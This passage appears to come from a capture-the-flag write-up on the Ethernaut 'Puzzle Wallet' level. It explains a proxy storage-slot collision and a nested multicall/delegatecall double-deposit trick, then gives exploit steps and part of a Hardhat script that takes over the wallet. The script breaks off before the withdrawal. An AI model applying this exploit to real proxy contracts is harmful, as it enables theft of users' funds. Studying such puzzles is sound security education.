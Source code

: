 And then in occured to me, I could `delegatecall` to the `multicall` function its self, creating a new stack frame with new `depositCalled` initialized to `false`. So all I had to do was to provide two calls to the `multicall` function. The first is a `deposit` function, and then a call to `multicall` which would have a single call to `deposit` once more. 

* Call `proposeNewAdmin` on proxy with the account address to set the `owner` on the implementation
* Call `addToWhitelist` on the implementation with the account address to add the account in the whitelist
* Generate the `calldata` for the `deposit` function
* Generate the `calldata` for the `multicall` functino with arguments an array with only the `deposit` `calldata` generated in the previous step
* Call `multicall` with an array with the `deposit` `calldata` and the `multicall` `calldata` and send a value equal to the funds of the contract
* Call `execute` and withdraw the full amount of the contract
* Call `setMaxBalance` with the account address to set the `admin` on the proxy


#### king-solve.js

```javascript
const hre = require("hardhat");
const { ethers, upgrades } = require("hardhat");

async function printState(proxy, contract, account) {
    console.log("Proxy pendingAdmin: " + await proxy.pendingAdmin())
    console.log("Proxy admin       : " + await proxy.admin())
    console.log("Wallet owner      : " + await contract.owner())
    console.log("Wallet maxBalance : " + await contract.maxBalance())
    console.log("Wallet Balance    : " + await ethers.provider.getBalance(contract.address))
    console.log("Account Balance   : " + await contract.balances(account.address))
    console.log("")
}

async function main() {
    puzzleWalletAddress = "0x0191F190ADFdE3C418D9742d8b0C80Ca57e4Ec4e";
    contract = await ethers.getContractAt("PuzzleWallet", puzzleWalletAddress);

    const accounts = await hre.ethers.getSigners();
    account = accounts[0];

    console.log("Level address: " + contract.address)
    console.log("")

    proxy = await ethers.getContractAt("PuzzleProxy", puzzleWalletAddress);
    

    await printState(proxy, contract, account)

    // set pendingAdmin in PuzzleProxy which overlaps owner in PuzzleWallet slot to account address 
    tx = await proxy.connect(account).proposeNewAdmin(account.address)
    receipt = await tx.wait()

    await printState(proxy, contract, account)

    // add account address to whitelist
    tx = await contract.connect(account).addToWhitelist(account.address)
    receipt = await tx.wait()

    // prepare double deposit with single value
    depositCallData = contract.interface.encodeFunctionData("deposit")
    multicallCallData = contract.interface.encodeFunctionData("multicall", [[depositCallData]])

    contractBalance = await ethers.provider.getBalance(contract.address)

```